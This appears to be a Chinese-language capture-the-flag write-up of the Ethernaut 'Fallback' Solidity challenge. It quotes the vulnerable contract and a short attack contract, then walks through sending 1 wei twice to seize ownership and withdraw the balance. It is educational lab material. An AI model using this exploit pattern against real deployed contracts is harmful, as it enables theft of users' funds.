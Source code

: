 # 1.Fallback

## 题目描述

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1644591344102-d0b820ba-3170-409d-af68-40ae27bb1031.png)

## 解题过程

题目源码

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

注意两个部分

```javascript
// 记录用户地址对合约的贡献量，当用户当前的贡献值大于 owner(定义为1000)，获得 owner权限
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
// fallback函数，当使用 send() 方法发送数据给合约时总会调用该方法
// 定义参考文章：https://me.tryblockchain.org/blockchain-solidity-fallback.html
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

思路如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1644969666406-324e6b41-6977-457b-b7c2-0c74857ae95f.png)

攻击合约部署

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./debug.sol";

contract Attack is Fallback {

  address payable addr = 0x67C2b4b52c4246BB32C200B475062e7882DB265D;
  Fallback att = Fallback(addr);

  function obtain_owner() public payable {
   payable(addr).send(msg.value);
  }
}
```

调用 contribute方法发送 1 wei

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1644969951341-1a29afd1-0013-4272-b5b6-2c4002275ba6.png)

使用 send() 方法发送 1 wei， 触发 fallback

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1644970037101-55252b1b-ea70-4343-909e-e1b0ed484f44.png)

调用后查看 owner权限，已经成功获取

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1644970116976-700eca53-d7fb-4fd3-bfe5-a1ab7cf20e41.png)

最后调用 withdraw方法  完成关卡
